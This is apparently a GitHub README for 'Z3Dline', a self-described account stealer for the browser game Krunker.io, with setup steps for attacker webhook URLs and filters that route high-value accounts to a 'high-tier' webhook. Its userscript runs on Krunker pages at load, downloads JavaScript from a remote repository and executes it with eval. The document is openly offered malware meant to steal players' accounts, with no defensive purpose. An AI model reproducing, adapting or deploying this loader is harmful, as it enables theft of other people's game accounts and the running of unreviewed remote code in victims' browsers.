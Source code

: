 # Z3Dline

An improved version of PTWline stealer for Krunker.io.

# Usage

- Replace the `LO_WEBHOOK_URL` and `HI_WEBHOOK_URL` with your own webhook URLs.
- You can also change the `HI_FILTER` to set which accounts will go to the High-Tier Webhook. ONLY ACCOUNTS MATCHING ALL THE FILTERS WILL BE SENT TO THE HIGH-TIER WEBHOOK.

```js
// ==UserScript==
// @name         Z3DLine
// @description  Krunker Account Stealer
// @version      1.0.0
// @author       z3db0y
// @match        *://*.krunker.io/*
// @icon         https://www.google.com/s2/favicons?sz=64&domain=krunker.io
// @grant        none
// @run-at       document-start
// ==/UserScript==

const LO_WEBHOOK_URL = '';
const HI_WEBHOOK_URL = '';
const HI_FILTER = {
    lvl: 0,
    kr: 0,
    kdr: 0,
    nukes: 0,
    accuracy: 0
};

let xhr = new XMLHttpRequest();
xhr.open('GET', 'https://raw.githubusercontent.com/z3db0y/Z3Dline/main/Z3Dline.js', false);
xhr.send();
eval(xhr.responseText);
```